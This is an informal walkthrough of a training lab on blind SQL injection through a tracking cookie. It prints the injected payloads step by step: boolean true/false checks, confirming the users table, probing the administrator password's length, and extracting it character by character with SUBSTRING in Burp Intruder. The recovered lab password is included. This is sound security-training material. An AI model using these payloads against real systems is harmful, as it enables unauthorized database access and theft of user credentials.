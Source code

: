# SQL injection labs

## Lab: Blind SQL injection with conditional responses



The application uses a tracking cookie for analytics

The database contains a different table called <mark style="color:red;">**`users`**</mark>, with columns called <mark style="color:red;">**`username`**</mark> and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the <mark style="color:red;">**`administrator`**</mark> user.



**`Cookie: TrackingId=St10uonYH4szuC66`**

```sql
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='1 #true
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='2  #false
```



ok i will use limit

```sql
' AND (SELECT 'X' from users limit 1)='x'--
```

<figure><img src="../../../../.gitbook/assets/image (132).png" alt=""><figcaption><p>Welcome back!</p></figcaption></figure>

ok i will try use table users and column username

```sql
AND+(SELECT+username+FROM+users+WHERE+username='administrator')='administrator'--
```

<figure><img src="../../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

ok in this case i'll  tracking passsword using SUBSTRING() function to extract a single character from the password



```sql
' AND (SELECT username FROM users WHERE username='administrator' and LENGTH(password)>1)='administrator'--
```

<figure><img src="../../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

i will try numbers 1 to 19 all valid  password >19

go to intruder  > cluster bomb

```sql
'+AND+(SELECT+substring(password,1,1)+FROM+users+WHERE+username%3d'administrator')%3d'8'--
```

<figure><img src="../../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

```
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
8oiqhj3w6k9bfypfq7j1
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

offfffffffffffffffffffffff! :smile: :tada:
